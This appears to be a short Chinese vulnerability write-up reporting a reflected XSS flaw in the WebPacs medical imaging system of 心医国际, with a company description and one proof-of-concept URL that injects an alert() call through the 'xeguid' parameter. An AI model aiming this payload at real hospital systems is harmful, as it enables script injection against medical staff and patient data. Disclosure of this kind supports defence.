 # 心医国际WebPacs系统存在XSS漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">心医国际是中国专业的医疗云应用解决方案提供商，铺建并运营全国领先的智能医疗云平台，依托十年的数据积累和业务实践，持续创新智能医疗场景应用。业务服务覆盖诊疗、教学、科研、管理等多维度，助力政府、医院及产业合作伙伴，打造线上线下高效协同的智慧医疗健康服务体系，目前已建成覆盖全国31个省，联结2万余家医疗机构的智能医疗云平台，助力建设并服务青海、河南、陕西、山西、贵州、新疆、江西、广西、甘肃9大省级远程医疗平台，服务通达80%全国三甲级医院;成功建设并服务全国300余个省、市、县及专科医联体。心心医国际WebPacs系统存在XSS漏洞  
</font>**<font style="color:rgb(38, 38, 38);">二、漏洞复现</font>**

```plain
http://127.0.0.1/WebPacs/webpacs/pacsview?xeguid=%27-alert(123)(1)-%27&view=report
```

![1714378559826-ac84ebc3-5c0e-4735-881c-c5f9982ad68c.png](./img/UqwwuBHtIb6gDHbZ/1714378559826-ac84ebc3-5c0e-4735-881c-c5f9982ad68c-566514.png)





> 更新: 2024-06-17 09:27:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lfhr7qyafn7qabkz>